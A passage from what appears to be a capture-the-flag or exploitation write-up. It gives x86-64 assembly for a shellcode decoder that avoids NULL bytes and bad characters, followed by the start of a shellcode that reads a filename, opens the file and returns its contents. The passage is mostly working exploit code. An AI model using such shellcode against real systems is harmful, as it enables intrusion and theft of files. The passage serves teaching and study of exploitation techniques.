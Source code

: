 Again, however, due to the nature of this instruction (it uses a 32-bit displacement value) this would introduce NULL bytes. Instead, I decided to offset the value with a constant and then subtracting that constant. Finally, I needed to select a proper register. I settled on `r14`, because `rax` through `rdi` would introduce bad chars, and so would `r15`. 

The decoder looks like this:

```
bits 64


default rel                         ; we'll use relative addressing to get RIP

_start:
                                    ; we use r14, because this will avoid the 0x48 byte
                                    ; lea eax/ecx etc emits 0x48
lea r14, [rel _shellcode+0x12345678]; we can't use it directly, because of null bytes.
sub r14, 0x12345678                 ; restore the value in r14, so it points to the encoded shellcode.

push byte 43                        ; put amount of bytes to decode
pop rcx                             ; in rcx

_decode:
dec byte [r14]                      ; start at r14 (_fakecall)
add r14, 1                          ; 'decode' by adding 1
loop _decode                        ; decode `ecx` bytes.

_shellcode:                         ; place 'encoded' shellcode here
```

The actual shellcode is nearly the same one used above. It reads in the name of the file you want to read (terminate with `^@` or `0x00` by typing Ctrl+space). It then opens that file, reads from it, storing the data on the stack. It finally writes the contents of the file back to us.

```
bits 64

_start:

push byte 0         ; we can use 0 here because we add 1 to each 
                    ; byte in the shellcode to 'encode' it.
pop rbx             ; store this value in rbx. We'll re-use it later.
push rbx            ; copy rbx...
pop rax             ; ...to rax. rax is now 0, the syscall for 'read'
push rbx            ; copy rbx...
pop rdi             ; ...to rdi: fd = stdin 
push rsp            ; copy rsp to rsi
pop rsi             ; rsi is the buffer to which we read the filename to open
                    
push byte 18        ; the filename will be 18 bytes long
pop rdx             ; amount of byte to read
syscall             ; read in the filename

push rbx            ; rbx is still 0
pop rax             ; zero out rax
xor al, 2           ; syscall open. I had to use the xor here to avoid badchars after encoding this shellcode.
push rdi            ; switch around some registers. rdi = 0
push rsi            ; rsi = pointer to filename
pop rdi             ; rdi now points to filename to open
pop rsi             ; rsi = 0, which is O_RDONLY
syscall             ; open file

                    ; switch around the registers again. 
```